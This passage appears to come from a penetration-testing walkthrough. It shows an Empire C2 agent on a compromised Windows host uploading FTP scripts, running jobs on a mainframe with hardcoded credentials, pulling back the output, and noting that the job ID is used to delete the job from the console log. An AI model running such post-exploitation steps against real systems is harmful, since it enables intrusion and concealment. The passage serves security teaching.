 ```
(Empire: SalesFTP) > upload /root/ftp_jes.txt
c:\users\sysback\appdata\local\
(Empire: SalesFTP) > shell ftp -i -s:ftp_jes.txt > result.txt
(Empire: SalesFTP) > shell type result.txt
```

Note: ```shell ftp -i -s:ftp_jes.txt``` Runs the FTP command using the ftp_jes.txt script. The -i option specifies binary mode (for a reliable transfer), and -s specifies the script file to execute.

And now we need to check the output:

```
(Empire: SalesFTP) > shell type result.txt
```

This command displays the contents of result.txt, where you'll see responses from the FTP server, including crucial details like the JOB id (e.g., JOB04721). This JOB id is necessary for managing and eventually deleting the JOB from the mainframe console log.

The next required step would be retrieving the output file with the following FTP script (let's say we have named it "get_output.txt"):

```
open 192.168.1.200
FTPSRV
PASS01
get 'FTPSRV.OUTPUT' FTPSRV.OUTPUT.TXT
quit
```

This FTP script connects to the mainframe, logs in with the specified credentials, and retrieves the output file FTPSRV.OUTPUT, saving it locally as FTPSRV.OUTPUT.TXT.

Note: the script could be uploaded and executed like this:

```
(Empire: SalesFTP) > upload /root/get_output.txt
C:\Users\sysback\AppData\Local\get_output.txt
(Empire: SalesFTP) > shell cd C:\Users\sysback\AppData\Local\
(Empire: SalesFTP) > shell ftp -s:get_output.txt
```

After these steps, we can review the output (FTPSRV.OUTPUT.TXT) with the command:

```
(Empire: SalesFTP) > shell type FTPSRV.OUTPUT.TXT
```

This (omitted) output reveals the following key information:

```
USER=FTPSRV
ATTRIBUTES=NONE
GROUP=SALES
AUTH=USE
```

This indicates that the FTPSRV user has no special privileges (attributes=none) on the Mainframe. While this is not surprising, it confirms that our ability to execute code and retrieve output from the Mainframe is intact.

